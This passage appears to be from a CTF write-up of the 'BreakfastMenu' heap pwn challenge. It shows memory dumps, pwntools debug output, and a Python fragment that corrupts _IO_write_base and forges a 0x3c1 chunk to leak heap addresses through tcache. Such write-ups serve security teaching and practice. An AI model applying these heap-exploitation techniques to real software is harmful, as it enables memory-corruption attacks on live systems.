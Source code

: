 The following is an excerpt from the `Dockerfile`, which may be due to running on `nsjail`.
```
    socat \
      TCP-LISTEN:1337,reuseaddr,fork \
      EXEC:"nsjail --config /home/user/nsjail.cfg -- /home/user/BreakfastMenu"
```

However, if the lower 1 byte of `_IO_write_base` is rewritten to `NULL`, only the following heap area can be output even in the server environment.
```
0x603200:	0x0000000000000000	0x0000000000000000
0x603210:	0x0000000000000000	0x0000000000000000
0x603220:	0x0000000000000000	0x0000000000000000
0x603230:	0x0000000000000000	0x0000000000000000
0x603240:	0x0000000000000000	0x0000000000000000
0x603250:	0x0000000000000000	0x0000000000000411  <- The server environment is 0x111 instead of 0x411.
0x603260:	0x7461657243202e0a	0x2077656e20612065
0x603270:	0x2e320a726564726f	0x6e61207469644520
0x603280:	0x330a726564726f20	0x6574656c6544202e
```

An example of outputting with `context.log_level ='debug'` of `Pwntools`
```
    00000000  73 6f 20 79  6f 75 20 77  61 6e 74 65  64 20 87 3a  │so y│ou w│ante│d ·:│
    00000010  ad fb 01 01  01 01 01 01  01 01 01 01  01 01 01 01  │····│····│····│····│
    00000020  01 01 01 01  01 01 01 01  01 01 01 01  01 0a 00 00  │····│····│····│····│
    00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000080  00 00 00 00  00 00 11 10  00 00 00 00  00 00 31 2e  │····│····│····│··1.│
    00000090  20 43 72 65  61 74 65 20  61 20 6e 65  77 20 6f 72  │ Cre│ate │a ne│w or│
    000000a0  64 65 72 0a  32 2e 20 45  64 69 74 20  61 6e 20 6f  │der·│2. E│dit │an o│
    000000b0  72 64 65 72  0a 33 2e 20  44 65 6c 65  74 65 20 61  │rder│·3. │Dele│te a│
    000000c0  6e 20 6f 72  64 65 72 0a  34 2e 20 50  61 79 20 79  │n or│der·│4. P│ay y│
    000000d0  6f 75 72 20  62 69 6c 6c  20 61 6e 64  20 6c 65     │our │bill│ and│ le│
```

Since the above limited area contains `tcachebin` of `0x3c0` size, we can leak the heap address by creating a chunk of `0x3c0` size in another area and freeing it.

```python
for i in range(6):
  Create()
Delete(4)
Delete(5)
Edit(5, "\x00")
Create()
Create()
Edit(2, "A"*0x18+p64(0x3c1))
Delete(7)
```

State of heap memory after executing `Delete(7)`
```
0x604670:	0x0000000000000000	0x0000000000000031
0x604680:	0x0000000000000000	0x0000000000000000
0x604690:	0x0000000000000000	0x0000000000000000
0x6046a0:	0x0000000000000000	0x0000000000000031
0x6046b0:	0x0000000000000000	0x0000000000000000
0x6046c0:	0x0000000000000000	0x0000000000000000
0x6046d0:	0x0000000000000000	0x0000000000000031
0x6046e0:	0x4141414141414141	0x4141414141414141
0x6046f0:	0x4141414141414141	0x00000000000003c1
0x604700:	0x0000000000000000	0x0000000000603010
0x604710:	0x0000000000000000	0x0000000000000000
0x604720:	0x0000000000000000	0x0000000000000000
0x604730:	0x0000000000000000	0x0000000000000031
0x604740:	0x0000000000000000	0x0000000000603010
```